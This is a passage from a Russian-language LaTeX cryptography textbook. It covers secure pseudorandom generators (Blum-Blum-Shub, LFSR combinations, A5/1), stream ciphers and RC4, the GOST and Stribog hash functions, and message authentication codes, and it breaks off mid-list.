То есть, если мы решим увеличить размер внутреннего состояния для защиты от криптоаналитика, это приведёт не более чем к линейному росту затрат последнего на необходимые вычисления (сравните это с экспоненциальным ростом затрат криптоаналитика при увеличении размера ключа для блочных шифров). Поэтому для использования в криптографии к генераторам псевдослучайных чисел предъявляются дополнительные требования.

\emph{Криптографически стойким генератором псевдослучайных чисел} будем называть функцию $g$ вида
	\[g: \left\{0, 1\right\}^{n} \to \left\{0, 1\right\}^{q\left(n\right)},\] 
вычислимую за полиномиальное время, результатом работы которой является последовательность чисел, удовлетворяющая тесту на следующий бит: не должно существовать полиномиального алгоритма, который по $k$ битам последовательности будет предсказывать следующий с вероятностью более $1/2$.

В 1982 году Эндрю Яо (\langen{Andrew Chi-Chih Yao},~\cite{Yao:1982}) доказал, что любой генератор, проходящий тест на следующий бит, сможет пройти и любые другие статистические полиномиальные тесты на случайность.

Как и в случае с блочными шифрами, да и с криптографией вообще, под криптографической стойкостью конкретных алгоритмов в 99\% случаев стоит понимать не принципиальное отсутствие, а неизвестность конкретных алгоритмов, которые могут предсказать выход генератора за полиномиальное время. Для тех генераторов, которые считались криптографически стойкими 20 лет назад, сегодня могут уже существовать алгоритмы для предсказания следующего элемента последовательности.


\subsection{Генератор BBS}
\selectlanguage{russian}

Имеются примеры <<хороших>> генераторов, вырабатывающих криптографически стойкие последовательности, например, генератор \textbf{Blum-Blum-Shub (BBS)}. Алгоритм работы состоит в следующем. Выбирают большие (длиной не менее 512 бит) простые числа $p, q$, которые при делении на $4$ дают в остатке $3$. Вычисляют $n = p q$. С помощью датчика случайных чисел вырабатывают  число $x_{0}$, где $1 \leq x_0 \leq n-1$ и $\gcd(x_0, n) = 1$. Далее проводят следующие вычисления:
\[ \begin{array}{l}
        x_{1} = x_{0}^{2} \mod n,\\
        x_{2} = x_{1}^{2} \mod n,\\
        \dots\\
        x_{N} = x_{N-1}^{2} \mod n.
\end{array} \]

Для каждого вычисленного значения оставляют один младший разряд. Вычисляют двоичную псевдослучайную последовательность $k_1 k_2 k_3 \dots$:
\[ \begin{array}{l}
        k_{1} = x_{1} \mod 2,\\
        k_{2} = x_{2} \mod 2,\\
        \dots \\
        k_{N} = x_{N} \mod 2.
\end{array} \]

Число $a$ называется \emph{квадратичным вычетом} по модулю $n$, если для него существует квадратный корень $b$ (или два корня): $a = b^2 \mod n$. Для $p,q ~=~ 3 \mod 4$ верно утверждение, что квадратичный вычет имеет единственный корень и операция $x \rightarrow x^2 \mod n$, примененная к элементам множества всех квадратичных вычетов $\set{QR}_n$ по модулю $n$, является перестановкой множества $\set{QR}_n$.

Полученная последовательность квадратичных вычетов $x_1, x_2, x_3, \dots$ -- периодическая с периодом $T < |\set{QR}_n|$. Чтобы ее период для случайного $x_0$ с большой вероятностью оказался большим, числа $p,q$ выбирают с условием малого $\gcd(\phi(p-1), \phi(q-1))$, где $\phi(n)$ -- функция Эйлера.

Полученная последовательность ключей является криптографически стойкой. Доказано, что для <<взлома>> (т.е. определения следующего символа с вероятностью отличной от $\frac{1}{2}$), требуется разложить число $n=pq$ на множители. Разложение числа на множители считается трудной задачей, все известные алгоритмы не являются полиномиальными по $\log_2 n$.

Оказывается, что если вместо одного последнего бита $k_i = x_i \mod 2$ брать $O(\log_2 \log_2 n)$ последних битов рассмотренного выше генератора $x_i$, то полученная последовательность останется криптостойкой.

Большой недостаток генератора BBS -- малая скорость генерирования бит.


\section{КСГПСЧ на основе РСЛОС}

Как уже упоминалось ранее, использование РСЛОС в качестве ГПСЧ не является криптографически стойким. Однако можно использовать комбинацию из нескольких регистров сдвига, чтобы в результате получить быстрый, простой (дешёвый) и надёжный (криптографически стойкий) генератор псевдослучайных чисел.

\subsection[Генераторы с несколькими регистрами сдвига]{Генераторы с несколькими регистрами \protect\\ сдвига}
\selectlanguage{russian}

Первый способ улучшения криптографических свойств последовательности состоит в создании композиционных генераторов из нескольких регистров сдвига при определённом способе выбора параметров. Схема такого генератора показана на рис.~\ref{fig:generators}. Здесь $L_i, ~ i = 1, 2, \dots, M$ -- регистры сдвига с линейной обратной связью. Вырабатываемые ими двоичные символы $x_{1,i}, x_{2,i}, \dots, x_{M,i}$ поступают синхронно на устройство преобразования, задаваемое булевой функцией $f(x_{1,i}, x_{2,i}, \dots, x_{M,i})$. В булевой функции и аргументы, и значения функции принимают значения $0$ или $1$.

Число ячеек в $i$-м регистре равно $L_{i}$, причём $\gcd(L_i, L_j)=1$ для $i \neq j$, где $\gcd$~--- наибольший общий делитель. Общее число ячеек $L = \sum\limits_{i=1}^M L_i$. Булева функция $f$ должна включать слагаемое по одному из входов, т.~е. $f = \dots + x_i + \dots$, для того чтобы двоичные символы на выходе этой функции были равновероятными. Период этого генератора может достигать величины (немного меньше)
    \[ T \simeq 2^L. \]

\begin{figure}[!ht]
	\centering
	\includegraphics[width=0.7\textwidth]{pic/generators}
    \caption{Генератор с несколькими регистрами сдвига\label{fig:generators}}
\end{figure}

Таким образом, увеличение числа регистров сдвига с обратной связью увеличивает период последовательности.

Одним из способов оценки криптостойкости генератора является оценка длина регистра с линейной обратной связью эквивалентного по порождаемой последовательности. Такой эквивалентный РСЛОС находится с помощью алгоритма Берлекэмпа~---~Мэсси\index{алгоритм!Берлекэмпа~---~Мэсси} декодирования циклических кодов. В лучшем случае длина эквивалентного регистра соизмерима с периодом последовательности, порождённой нелинейным генератором. В общем случае определение эквивалентной длины является сложной задачей.


\subsection{russian}[Генераторы с нелинейными преобразованиями]{Генераторы с нелинейными \protect\\ преобразованиями}

Известно, что любая булева функция $f(x_1, x_2,  \dots, x_M)$ может быть единственным образом записана многочленом Жегалкина\index{многочлен!Жегалкина}:
\[ \begin{array}{ll}
    f(x_1, x_2, \dots, x_M) & = ~c~ + \\
    & + \sum\limits_{1 \leq i \leq M} c_i x_i + \\
    & + \sum\limits_{1 \leq i < j \leq M} c_{i,j} x_i x_j + \\
    & + \sum\limits_{1 \leq i < j < k \leq M} c_{i,j,k} x_i x_j x_k + \\
    & + \dots + \\
    & + ~ c_{1,2,\dots,M} ~ x_1 x_2 \dots x_M.
\end{array} \]

%Криптографу рекомендуется выбирать булеву функцию с возможно большим числом ненулевых коэффициентов при квадратичных членах полинома Жегалкина.

Второй способ улучшения криптостойкости последовательности поясняется с помощью рис. \ref{fig:lfsr-zhegalkin}, на котором представлен регистр сдвига с $M$ ячейками, и устройства, осуществляющего преобразование с помощью булевой функции $f(x_1, x_2, \dots, x_M)$, причем функция $f$ содержит нелинейные члены, то есть произведения $x_i x_j \dots$. Тактовый вход здесь такой же, как у регистров, показанных на других рисунках.

Если функция $f$ нелинейная, то в общем случае не известен полиномиальный алгоритм восстановления состояния регистров по нескольким последним выходам генератора. Таким образом, использование нескольких регистров сдвига увеличивает максимально возможный период по сравнению с одним регистром до $T < 2^{L_1 + L_2 + \dots + L_M}$, а нелинейность функции $f$ позволяет избежать простого нахождения состояния по выходу. Чтобы улучшить криптостойкость последовательности, порождаемой  регистром, рекомендуется брать много нелинейных членов многочлена Жегалкина.

Такой подход применен в системе GPS. Удачных попыток ее взлома до сих пор нет.

\begin{figure}[h!]
    \centering
	\includegraphics[width=0.4\textwidth]{pic/lfsr-zhegalkin}
    \caption{Криптографический генератор с нелинейной булевой функцией\label{fig:lfsr-zhegalkin}}
\end{figure}


\subsection[Мажоритарные генераторы, шифр A5/1]{Мажоритарные генераторы на примере алгоритма шифрования A5/1}\label{section:majority_generators}\index{шифр!A5}
\selectlanguage{russian}

Третий способ улучшения криптостойкости последовательностей поясняется с помощью рис.~\ref{fig:gsm-a51-cipher}, на котором показан мажоритарный генератор ключей алгоритма потокового шифрования A5/1 стандарта GSM. В отличие от случая нелинейного комбинирования выходов нескольких регистров в этом случае применён условный сдвиг регистров, то есть на каждом такте некоторые регистры могут не сдвигаться, а оставаться в прежнем состоянии. На рисунке показана схема из трёх регистров сдвига с различными многочленами обратной связи (здесь применена обратная нумерация ячеек, коэффициентов и переменных по сравнению с предыдущими разделами):
\[ \left\{ \begin{array}{l}
    c_1(y) = y^{19} + y^{18} + y^{17} + y^{14} + 1, \\
    c_2(y) = y^{22} + y^{21} + 1, \\
    c_3(y) = y^{23} + y^{22} + y^{21} + y^8 + 1.
\end{array} \right. \]

\begin{figure}[!ht]
    \centering
	\includegraphics[width=\textwidth]{pic/gsm-a51-cipher}
    \caption{Регистр сдвига алгоритма шифрования A5/1\label{fig:gsm-a51-cipher}}
\end{figure}

В алгоритме A5/1 регистры сдвигаются не на каждом такте. Правило сдвига следующее. В каждом регистре есть один тактовый бит, определяющий сдвиг,~-- восьмой бит $\textrm{C1}$ для первого регистра, десятые биты $\textrm{C2}$ и $\textrm{C3}$ для второго и третьего регистров. На каждом такте вычисляется мажоритарное значение тактового бита $m = \textrm{majority}(\textrm{C1}, \textrm{C2}, \textrm{C3})$, то есть по большинству значений: 0 или 1. Если для данного регистра значение тактового бита совпадает с мажоритарным решением, то регистр сдвигается. Если не совпадает, то остаётся в прежнем состоянии без сдвига на следующий такт. Так как всего состояний тактовых битов $2^3$, то в среднем каждый регистр сдвигается в $\frac{3}{4}$ всех тактов.

Общее количество ячеек всех трёх регистров $19+22+23=64$, следовательно, период генератора A5/1: $T < 2^{64}$. Данный шифр не может считаться стойким из-за возможности полного перебора. Например, известны атаки на шифр A5/1, требующие 150-300 GiB оперативной памяти и нескольких минут вычислений одного ПК (2001 г.).



\chapter{Потоковые шифры}\label{chapter-stream-ciphers}
\selectlanguage{russian}

Потоковые шифры осуществляют посимвольное шифрование открытого текста. Под символом алфавита открытого текста могут пониматься как отдельные биты (побитовое шифрование), так и байты (побайтовое шифрование). Поэтому можно говорить о в какой-то мере условном разделении блочных и потоковых шифров: например 64-битная буква - один блок. Общий вид большинства потоковых шифров приведён на рис.~\ref{fig:stream-cipher}.

\begin{figure}[hb]
	\centering
	\includegraphics[width=0.66\textwidth]{pic/stream-cipher}
  \caption{Общая структура шифрования с использованием потоковых шифров}
  \label{fig:stream-cipher}
\end{figure}

\begin{itemize}
	\item Перед началом процедуры шифрования отправитель и получатель должны обладать общим секретным ключом.
	\item Секретный ключ используется для генерации инициализирующей последовательности (\langen{seed}) генератора псевдослучайной последовательности.
	\item Генераторы отправителя и получателя используются для получения одинаковой псевдослучайной последовательности символов, называемой \emph{гаммой}\index{гамма}. Последовательности одинаковые, если для их получения использовались одинаковые ГПСЧ, инициализированные одной и той же инициализирующей последовательностью, при условии, что генераторы детерминированные.
	\item Символы открытого текста на стороне отправителя складываются с символами гаммы с использованием простейших обратимых преобразований. Например, побитовое сложение по модулю 2 (операция <<исключающее или>>, \langen{XOR}). Полученный шифртекст передаётся по каналу связи.
	\item На стороне легального получателя с символами шифртекста и гаммы выполняется обратная операция (для XOR это будет просто повторный XOR) для получения открытого текста.
\end{itemize}

Очевидно, что криптостойкость потоковых шифров непосредственно основана на стойкости используемых ГПСЧ. Большой размер инициализирующей последовательности, длинный период, большая линейная сложность -- необходимые атрибуты используемых генераторов. Одним из преимуществ потоковых шифров по сравнению с блочными является более высокая скорость работы.

Одним из примеров ненадёжных потоковых шифров является семейство A5\index{шифр!A5} (A5/1, A5/2), кратко рассмотренное в разделе~\ref{section:majority_generators}. Мы также рассмотрим вариант простого в понимании шифра RC4, не основанного на РСЛОС.

\section{Шифр RC4}\label{rc4}\index{шифр!RC4|(}
\selectlanguage{russian}

Шифр RC4 был разработан Роном Ривестом (\langen{Ronald Linn Rivest}) в 1987 году для компании RSA Data Security. Описание алгоритма было впервые анонимно опубликовано в телеконференции Usenet sci.crypt в 1994 году\footnote{См. раздел 17.1. <<Алгоритм RC4>> в~\cite{Schneier:2002}.}.

Генератор, используемый в шифре, хранит своё состояние в массиве из 256 ячеек $S_0, S_1, \dots, S_{255}$, заполненных значениями от 0 до 255 (каждое значение встречается только один раз), а также двух других переменных размером в 1 байт $i$ и $j$. Таким образом, количество различных внутренних состояний генератора равно $255! \times 255 \times 255 \approx 2.17 \times 10^{509} \approx 2^{1962}$.

Процедура инициализации генератора.
\begin{itemize}
	\item Для заполнения байтового массива из 256 ячеек $K_0, K_1, \dots, K_{255}$ используется предоставленный ключ. При необходимости (если размер ключа менее 256-ти байтов) ключ используется несколько раз, пока массив $K$ не будет заполнен целиком.
	\item Начальное значение $j$ равно $0$.
	\item Далее для значений $i$ от $0$ до $255$ выполняется:
	\begin{enumerate}
		\item $j:= (j + S_i + K_i) \mod 256$,
		\item поменять местами $S_i$ и $S_j$.
	\end{enumerate}
\end{itemize}

Процедура получения следующего псевдослучайного байта $result$ (следующего байта гаммы):
\begin{enumerate}
	\item $ i := (i + 1) \mod 256$,
	\item $ j := (j + S_i) \mod 256$,
	\item поменять местами $S_i$ и $S_j$,
	\item $ t := ( S_i + S_j ) \mod 256$,
	\item $ result := S_t$.
\end{enumerate}

По утверждению Брюса Шнайера, алгоритм настолько прост, что большинство программистов могут закодировать его по памяти. Шифр RC4 использовался во многих программных продуктах, в том числе в IBM Lotus Notes, Apple AOCE, Oracle Secure SQL и Microsoft Office, а также в стандарте сотовой передачи цифровых данных CDPD. В настоящий момент шифр не рекомендуется к использованию~\cite{rfc7465}, в нём были найдены многочисленные, хотя и некритичные уязвимости~\cite{Fluhrer:Mantin:Shamir:2001,Mantin:Shamir:2002,Paul:Maitra:2007,Sepehrdad:Vaudenay:Vuagnoux:2011}.

\index{шифр!RC4|)}



\chapter{Криптографические хэш-функции}\label{chapter-hash-functions}
\selectlanguage{russian}

Хэш-функции возникли как один из вариантов решения задачи <<поиска по словарю>>. Задача состояла в поиске в памяти компьютера (оперативной или постоянной) информации по известному ключу. Возможными способами решения были хранение, например, всего массива ключей (и указателей на содержимое) в отсортированном в некотором порядке, списке, либо в виде бинарного дерева. Однако наиболее производительным с точки зрения времени доступа (при этом обладая допустимой производительностью по времени модификации), стал метод хранения в виде хэш-таблиц. Этот метод ведёт своё происхождение из стен компании IBM (как и многое другое в программировании).

Метод хэш-таблиц подробно разобран в любой современной литературе по программированию~\cite{Knuth:2001:3}. Напомним лишь, что его идея состоит в разделении множества ключей по корзинам (bins) в зависимости от значения некоторой функции, вычисляемой по значению ключа. Причём функция подбирается таким образом, чтобы в разных корзинах оказалось одинаковое число (в идеале -- не более одного) ключей. При этом сама функция должна быть быстро вычислимой, а её значение должно легко конвертироваться в натуральное число, которое не превышает число корзин.

\emph{Хэш-функцией} (\langen{hash function}) называется отображение, переводящее аргумент произвольной длины в значение фиксированной длины.

\emph{Коллизией} хэш-функции называется пара значений аргумента, дающая одинаковый выход хэш-функции. Коллизии есть у любых хэш-функций, если количество различных значений аргумента превышает возможное количество значений результата функции (принцип ящиков Дирихле). А если не превышает, то и нет смысла использовать хэш-функцию.

\example
Приведём пример метода построения хэш-функции, называемого методом Меркла~--~Дамгарда\index{структура!Меркла~---~Дамгарда}~\cite{Merkle:1979, Merkle:1990, Damgard:1990}.

Пусть имеется файл $X$ в виде двоичной последовательности некоторой длины. Разделяем $X$ на несколько отрезков фиксированной длины, например по 256 символов:  $m_{1} ~\|~ m_{2} ~\|~ m_{3} ~\|~ \ldots ~\|~ m_{t}$. Если длина файла $X$ не является кратной 256 битам, то последний отрезок дополняем нулевыми символами и обозначаем $m'_{t}$.
Обозначим $t$ за новую длину последовательности. Считаем каждый отрезок $m_i, ~ i = 1, 2, \dots, t$ двоичным представлением целого числа.

Для построения хэш-функции используем рекуррентный способ вычисления. Предварительно введём вспомогательную функцию $\chi(m, H)$, называемую функцией компрессии или сжимающей функцией. Задаём начальное значение $H_{0} = 0^{256} \equiv \underbrace{000 \ldots 0}_{256} $. Далее вычисляем:
\[ \begin{array}{l}
    H_1 = \chi( m_1, H_0), \\
    H_2 = \chi( m_2, H_1), \\
    \dots,\\
    H_t = \chi( m'_t, H_{t-1}). \\
\end{array} \]
Считаем $H_{t} = h(X)$ хэш-функцией.
\exampleend

В программировании к свойствам хорошей хэш-функции относят:
\begin{itemize}
    \item быструю скорость работы,
    \item минимальное число коллизий.
\end{itemize}

Можно назвать и другие свойства, которые были бы полезны для хэш-функции в программировании. К ним можно отнести, например, отсутствие необходимости в дополнительной памяти (неиспользование <<кучи>>), простоту реализации, стабильность работы алгоритма (возврат одного и того же результата после перезапуска программы), соответствие результатов работы хэш-функции с результатами работы других функций, например, функций сравнения (см. например, описания функций \texttt{hashcode()}, \texttt{equals()} и \texttt{compare()} в языке программирования Java).

\textbf{Однонаправленной функцией}\index{функция!однонаправленная} $f(x)$ называется функция, обладающая следующими свойствами:
\begin{itemize}
    \item вычисление значения функции $f(x)$ для всех значений аргумента $x$ является \emph{вычислительно лёгкой} задачей;
    \item нахождение аргумента $x$, соответствующего значению функции $f(x)$, является \emph{вычислительно трудной} задачей.
\end{itemize}

Свойство однонаправленности, в частности, означает, что если в аргументе $x$ меняется хотя бы один символ, то для любого $x$ значение функции $H(x)$ меняется непредсказуемо.

\textbf{Криптографической хэш-функцией} $H(x)$ называется хэш-функция, имеющая следующие свойства:
\begin{itemize}
    \item однонаправленность: \emph{вычислительно невозможно} по значению функции найти прообраз;
    \item \emph{слабая устойчивость к коллизиям}\index{устойчивость к коллизиям} (слабо бесконфликтная функция): для заданного аргумента $x$ \emph{вычислительно невозможно} найти другой аргумент $y \neq x: ~ H(x) = H(y)$;
    \item \emph{сильная устойчивость к коллизиям} (cильно бесконфликтная функция): \emph{вычислительно невозможно} найти пару разных аргументов $x \neq y: ~ H(x) = H(y)$.
\end{itemize}

Из требования на устойчивость к коллизиям, в частности, следует свойство (близости к) равномерности распределения хэш-значений.

При произвольной длине последовательности $X$ длина хэш-функции $H(X)$ в российском стандарте ГОСТ Р 34.11-94 равна 256 символам, в американском стандарте SHA несколько различных значений длин: 160, 192, 256, 512 символов.

\section{ГОСТ Р 34.11-94}\index{хэш-функция!ГОСТ Р 34.11-94|(}
\selectlanguage{russian}

Представим описание устаревшего российского стандарта хэш-функции ГОСТ Р 34.11-94~\cite{GOST-94}.

Пусть $X$ -- последовательность длины 256 бит. Запишем $X$ тремя способами в виде конкатенации 4, 16 и 32 блоков:
\[ \begin{array}{ll}
    X & = X_4 ~\|~ X_3 ~\|~ X_2 ~\|~ X_1 = \\
    & = ~ \eta_{16} ~\|~ \eta_{15} ~\|~ \dots ~\|~ \eta_2 ~\|~ \eta_1 = \\
    & = ~ \xi_{32} ~\|~ \xi_{31} ~\|~ \dots ~\|~ \xi_2 ~\|~ \xi_1,
\end{array} \]
с длинами 64, 16 и 8 бит соответственно.

Введём три функции:
\[ \begin{array}{ll}
    A(X) & \equiv A(X_4 ~\|~ X_3 ~\|~ X_2 ~\|~ X_1) = \\
        & = \left( X_1 \oplus X_2 \right) ~\|~ X_4 ~\|~ X_3 ~\|~ X_2, \\
    & \\
    \psi(X) & \equiv \psi(\eta_{16} ~\|~ \eta_{15} ~\|~ \dots ~\|~ \eta_2 ~\|~ \eta_1) = \\
        & = \left( \eta_1 \oplus \eta_2 \oplus \dots \oplus \eta_{15} \right) ~\|~
            \eta_{16} ~\|~ \eta_{15} ~\|~ \dots ~\|~ \eta_3 ~\|~ \eta_2, \\
    & \\
    P(X) & \equiv P(\xi_{32} ~\|~ \xi_{31} ~\|~ \dots ~\|~ \xi_2 ~\|~ \xi_1) = \\
        & = \xi_{\varphi(32)} ~\|~ \xi_{\varphi(31)} ~\|~ \dots ~\|~ \xi_{\varphi(2)} ~\|~ \xi_{\varphi(1)},
\end{array} \]
где $\varphi(s)$ -- перестановка байта, $s$ -- номер байта. Функции $A(X)$ и $\psi(X)$ -- регистры сдвига с линейной обратной связью.

Число $s$ однозначно представляется через целые числа $i$ и $k$, а правило перестановки $\varphi(s)$ записывается:
\[ \begin{array}{c}
    s = i + 4 (k - 1) + 1, ~~ 0 \leq i \leq 3, ~ 1 \leq k \leq 8, \\
    \varphi(s) = 8 i + k. \\
\end{array} \]
Приведём пример. Пусть $s = 7$, тогда $i=2$, $k=2$. Находим перестановку $\varphi(7) = 8 \cdot 2 + 2 = 18$. Седьмой байт переместился на 18-е место.

В российском стандарте функция компрессии двух 256-битовых блоков сообщения $M$ и результата хэширования предыдущего блока $H$ имеет вид:
\[
    H' = \chi(M, H) = \psi^{61}(H \oplus \psi(M \oplus \psi^{12}(S))),
\]
где $\psi^j(X)$ -- суперпозиция $j$ функций $\psi( \psi( \dots ( \psi( X)) \dots ))$, ~ 256-битовый блок $S$ определяется ниже.

256-битовые блоки $H$ и $S$ представляются конкатенацией четырёх 64-битовых блоков
\[ \begin{array}{l}
    H = h_4 ~\|~ h_3 ~\|~ h_2 ~\|~ h_1, \\
    S = s_4 ~\|~ s_3 ~\|~ s_2 ~\|~ s_1, \\
    s_i = E_{K_i}( h_i), ~ i = 1, 2, 3, 4, \\
\end{array} \]
где $E_{K_i}( h_i)$ -- криптографическое преобразование 64-битового блока $h_i$ стандарта блочного шифрования ГОСТ 28147-89 с помощью ключа шифрования $K_i$.

Вычисление ключей $K_i$ производится через вспомогательные функции:
\[ \begin{array}{c}
    U_1 = H, ~~ V_1 = M, \\
    U_i = A(U_{i-1}) \oplus C_i, ~~ V_i = A(A(V_{i-1})), ~~ i = 2, 3, 4, \\
\end{array} \]
где $C_2, C_3, C_4$ -- 256-битовые блоки:
\[ \begin{array}{c}
    C_2 = C_4 = 0^{256}, \\
    C_3 = 1^8 0^8 1^{16} 0^{24} 1^{16} 0^8 (0^8 1^8)^2 1^8 0^8 (0^8 1^8)^4 (1^8 0^8)^4. \\
\end{array} \]
Окончательно получаем ключи:
\[
    K_i = P(U_i \oplus V_i), ~ i = 1,2,3,4.
\]

%Ключевая хэш-функция определяется в виде $h_{K} (X)=h(KXK)$, где $h(X)$ -- некоторая стандартная хэш-функция, $K$ -- секретный ключ.
\index{хэш-функция!ГОСТ Р 34.11-94|)}


\section{Хэш-функция «Стрибог»}\label{section-stribog}\index{хэш-функция!«Стрибог»|(}
\selectlanguage{russian}

С 1 января 2013 года в России введён в действие новый стандарт на криптографическую хэш-функцию ГОСТ Р 34.11-2012~\cite{GOST-R:34.11-2012}. Неофициально новый алгоритм получил название <<Стрибог>>. При разработке хэш-функции авторы основывались на нескольких требованиях.

\begin{itemize}
	\item Функция не должна быть уязвима к известным атакам.
	\item Хэш-функция должна использовать хорошо изученные конструкции и преобразования.
	\item Не должно быть лишних преобразований, каждое преобразование должно гарантировать выполнение определённых криптографических свойств.
	\item При наличии нескольких вариантов реализации требуемого свойства -- наиболее простой для анализа и реализации.
	\item Максимальная производительность \emph{программной} реализации функции.
\end{itemize}

В соответствии с данными требованиями алгоритм новой хэш-функции основывается на хорошо изученных конструкциях Меркла~---~Дамгарда\index{структура!Меркла~---~Дамгарда}~\cite{Merkle:1979, Merkle:1990, Damgard:1990} и Миагучи~---~Пренеля\index{структура!Миагучи~---~Пренеля}~\cite{Espen:Mieghem:1989, Miyaguchi:Ohta:Iwata:1990:03, Miyaguchi:Ohta:Iwata:1990:11}, во внешней своей структуре практически полностью повторяя режим HAIFA\index{HAIFA} (\langen{HAsh Iterative FrAmework},~\cite{Biham:Dunkelman:2007}), использовавшийся в хэш-функциях SHAvite-3\index{хэш-функция!SHAvite-3} и BLAKE\index{хэш-функция!BLAKE}.

\begin{figure}[htb]
	\centering
	\includegraphics[width=0.95\textwidth]{pic/stribog-md}
  \caption{Использование структуры Меркла~---~Дамгарда в хэш-функции <<Стрибог>>}
  \label{fig:stribog-md}
\end{figure}

Как показано на рис.~\ref{fig:stribog-md}, входное сообщение разбивается на блоки по 512 бит (64 байта). Последний блок \emph{слева} дополняется последовательностью из нулей и  одной единицы до 512 бит (длина дополнения не учитывается в дальнейшем, когда длина сообщения используется как аргумент функций). Для каждой части сообщения вычисляется значение функции $g_N(h, m)$, которая в качестве аргумента использует текущий номер блока (умноженный на 512), результат вычисления для предыдущего блока и очередной блок сообщения. Также есть два завершающих преобразования. Первое вместо блока сообщения использует количество обработанных бит N (то есть длину сообщения), а второе -- арифметическую сумму значений всех блоков сообщения. В предположении, что функция $g_N(h, m)$ является надёжной для создания криптографически стойких хэш-функций, известно, что конструкция Меркла~---~Дамгарда позволяет получить хэш-функцию со следующими параметрами:

\begin{itemize}
	\item сложность построения прообраза: $2^n$ операций;
	\item сложность построения второго прообраза: $2^n / \left|M\right|$ операций;
	\item сложность построения коллизии: $2^{n/2}$ операций;
	\item сложность удлинения прообраза: $2^n$ операций.
\end{itemize}

Все параметры совпадают с аналогичными для идеальной хэш-функции, кроме сложности построения второго прообраза, который равен $2^n$ для идеального алгоритма.

В качестве функции $g_N(h, m)$ используется конструкция Миагучи~---~Пренеля\index{структура!Миагучи~---~Пренеля} (см. рис.~\ref{fig:stribog-mp}), которая является стойкой ко всем атакам, известным для схем однонаправленных хэш-функций на базе симметричных алгоритмов, в том числе к атаке с <<фиксированной точкой>>~\cite[стр. 502]{Schneier:2002}. \emph{Фиксированной точкой}\index{точка!фиксированная} называется пара чисел $(h, m)$, для которой у заданной функции $g$ выполняется $g(h, m) = h$.

\begin{figure}[htb]
	\centering
	\includegraphics[width=0.66\textwidth]{pic/stribog-mp}
  \caption{Использование структуры Миагучи~---~Пренеля в хэш-функции <<Стрибог>>}
  \label{fig:stribog-mp}
\end{figure}

\index{шифр!XSPL|(}В качестве блочного шифра используется новый XSPL-шифр, изображённый на рис.~\ref{fig:stribog-xspl}, отдельные элементы и идеи которого позже войдут в новый стандарт <<Кузнечик>>\index{шифр!<<Кузнечик>>} (см. раздел~\ref{section-grig}). Шифр является примером шифра на основе SP-сети\index{SP-сеть} (сети замен и перестановок), каждый раунд которого является набором обратимых преобразований над входным блоком.

\begin{figure}[htb]
	\centering
	\includegraphics[width=0.75\textwidth]{pic/stribog-xspl}
  \caption{XSPL-шифр в хэш-функции <<Стрибог>>}
  \label{fig:stribog-xspl}
\end{figure}

Каждый раунд XSPL-шифра, кроме последнего, состоит из следующих обратимых преобразований:
\begin{itemize}
	\item $X\left[C\right]$ -- побитовое сложение по модулю 2 с дополнительным аргументом $C$;
	\item $S$ -- нелинейная обратимая замена байтов;
	\item $P$ -- перестановка байтов внутри блока данных (транспонирование матрицы размером $8 \times 8$ из ячеек по одному байту каждая);
	\item $L$ -- обратимое линейное преобразование (умножение векторов на фиксированную матрицу).
\end{itemize}

Особенностью предложенного шифра является полная аналогия между алгоритмом развёртывания ключа и алгоритмом, собственно, преобразования открытого текста. В качестве <<раундовых ключей>> для алгоритма развёртывания ключа на первом раунде используется общее число уже обработанных бит хэш-функцией N, а на остальных раундах -- 512-битные константы, заданные в стандарте.\index{шифр!XSPL|)}

Новый алгоритм, согласно отдельным исследованиям, до полутора раз быстрее предыдущего стандарта ГОСТ Р 34.11-94\index{хэш-функция!ГОСТ Р 34.11-94}, используя 27 тактов на один байт входного сообщения (94~МБ/с), против 40 для старого стандарта (64~МБ/с)\footnote{Реализации тестировались на процессоре Intel Core i7-920 CPU @ 2.67~GHz и видеокарте NVIDIA GTX 580. См.~\cite{Lebedev:2013}.}.

В 2014 году группа исследователей (\cite{Guo:Jean:Leurent:Peyrin:Wang:2014}) обнаружила недостаток в реализации конструкции HAIFA в хэш-функции <<Стрибог>>, который ведёт к уменьшению сложности атаки по поиску второго прообраза до $n \times 2^{n/2}$, то есть до $2^{266}$. Авторы работы получили первую премию в размере пятьсот тысяч рублей на конкурсе по исследованию хэш-функции «Стрибог», проводившимся Российским Техническим комитетом по стандартизации «Криптографическая защита информации» (ТК~26) при участии Академии криптографии Российской Федерации и при организационной и финансовой поддержке ОАО «ИнфоТеКС».

\index{хэш-функция!«Стрибог»|)}


\section{Имитовставка}\label{section-MAC}
\selectlanguage{russian}
\index{имитовставка}

Для обеспечения целостности и подтверждения авторства информации, передаваемой по каналу связи, используют \emph{имитовставку} $\MAC$ (\langen{Message Authentication Code}).

Имитовставкой называется \emph{криптографическая хэш-функция} $\MAC(K,m)$, зависящая от передаваемого сообщения $m$ и секретного ключа $K$ отправителя $A$, обладающая свойствами цифровой подписи:
\begin{itemize}
    \item получатель $B$, используя такой же или другой ключ, имеет возможность проверить целостность\index{целостность} и доказать принадлежность информации $A$;
    \item имитовставку невозможно фальсифицировать.
\end{itemize}

Имитовставка может быть построена либо на симметричной криптосистеме (в таком случае обе стороны имеют один общий секретный ключ), либо на криптосистеме с открытым ключом, в которой $A$ использует свой секретный ключ, а $B$ -- открытый ключ отправителя $A$.

Наиболее универсальный способ аутентификации сообщений через схемы ЭП на криптосистемах с открытым ключом состоит в том, что сторона $A$ отправляет стороне $B$ сообщение
    \[ m ~\|~ \textrm{ЭП}(K, h(m)), \]
где $h(m)$ -- криптографическая хэш-функция в схеме ЭП и $\|$ является операцией конкатенации битовых строк. Для аутентификации большого объёма информации этот способ не подходит из-за медленной операции вычисления подписи. Например, вычисление одной ЭП на криптосистемах с открытым ключом занимает порядка 10 мс на ПК. При средней длине IP-пакета 1 Кбайт, для каждого из которых требуется вычислить имитовставку, получим максимальную пропускную способность в $\frac{1 ~ \text{Кбайт}}{10 ~ \text{мс}} = 100$ Кбайт/с.

Поэтому для большого объёма данных, которые нужно аутентифицировать, $A$ и $B$ создают общий секретный ключ аутентификации $K$. Далее имитовставка вычисляется либо с помощью модификации блочного шифра, либо с помощью криптографической хэш-функции.

Для каждого пакета информации $m$ отправитель $A$ вычисляет $\MAC(K,m)$ и присоединяет его к сообщению $m$:
    \[ m ~ \|~ \MAC(K,m). \]
Зная секретный ключ $K$, получатель $B$ может удостовериться с помощью кода аутентификации, что информация не была изменена или фальсифицирована, а была создана отправителем.

Требования к длине кода аутентификации в общем случае такие же, как и для криптографической хэш-функции, то есть длина должна быть не менее 160--256 бит. На практике часто используют усечённые имитовставки.

Стандартные способы использования имитовставки сообщения следующие.
\begin{itemize}
